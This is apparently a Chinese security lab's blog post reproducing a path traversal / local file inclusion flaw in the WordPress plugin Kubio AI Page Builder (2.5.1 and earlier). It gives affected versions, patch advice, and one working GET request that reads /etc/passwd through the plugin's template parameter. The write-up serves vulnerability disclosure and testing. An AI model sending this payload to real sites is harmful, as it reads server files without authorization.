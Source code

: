 #  【成功复现】WordPress plugin Kubio AI Page Builder路径遍历漏洞   
弥天安全实验室  弥天安全实验室   2025-05-20 00:20  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。WordPress plugin Kubio AI Page Builder 2.5.1及之前版本存在路径遍历漏洞，该漏洞源于kubio_hybrid_theme_load_template函数存在本地文件包含，可能导致未认证攻击者包含和执行任意文件。0x02影响版本  
WordPress plugin Kubio AI Page Builder 2.5.1及之前版本  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hC8oLtqTbR6iawoy29vN0W7VvU9TiazmvSsibJWkZXoP2VkteLqd2uk0ZNXx2KjsGpic1A1rGY5QIL9Vw/640?wx_fmt=png&from=appmsg "")  
  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hC8oLtqTbR6iawoy29vN0W7V8hZ9pNChjatqibzOiab4XJeE5lAsspCzfOuu1DzKgyEmtIMFrqMsqhQA/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现       1.GET请求获取服务器响应，确定使用Kubio AI Page Builder插件       2.执行payload测试漏洞， 通过响应判断漏洞存在。GET /?__kubio-site-edit-iframe-preview=1&__kubio-site-edit-iframe-classic-template=../../../../../../../../etc/passwd HTTP/1.1Host: 127.0.0.13.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！https://www.wordfence.com/threat-intel/vulnerabilities/id/2fb44c6e-520e-4a9f-9987-8b770feb710d?source=cve弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
